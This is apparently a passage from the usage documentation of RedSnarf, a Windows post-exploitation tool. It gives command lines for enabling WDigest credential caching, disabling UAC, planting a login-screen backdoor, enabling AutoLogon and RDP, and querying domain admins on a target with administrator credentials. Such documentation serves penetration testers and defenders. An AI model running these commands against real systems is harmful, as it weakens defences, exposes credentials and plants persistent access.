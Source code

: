 Example 2 - Double Quotes need to be escaped with \  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -uX 'dsquery group -name \"domain admins\" | dsget group -members -expand'**

Local Access Token Policy  
Creates a batch file lat.bat which you can copy and paste to the remote machine to execute which will modify the registry and either enable or disable Local Access Token Policy settings.  
**./redsnarf.py -rL y**

Wdigest  
Enable UseLogonCredential Wdigest registry value on a machine using domain administrator credentials
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rW e**

Disable UseLogonCredential Wdigest registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rW d**

Query UseLogonCredential Wdigest registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rW q**

UAC  
Enable UAC registry value on a machine using domain administrator credentials
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rU e**

Disable UAC registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rU d**

Query UAC registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rU q**

Backdoor - Backdoor Windows Screen - Press Left Shift + Left Alt + Print Screen to activate  
Enable Backdoor registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rB e**

Disable Backdoor registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rB d**

Query Backdoor registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rB q**

AutoLogon  
Enable Windows AutoLogon registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rA e**

Disable Windows AutoLogon registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rA d**

Query Windows AutoLogon registry value on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rA q**

RDP
=======================
 
Enable RDP on a machine using domain administrator credentials
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rR e**

Disable RDP on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rR d**
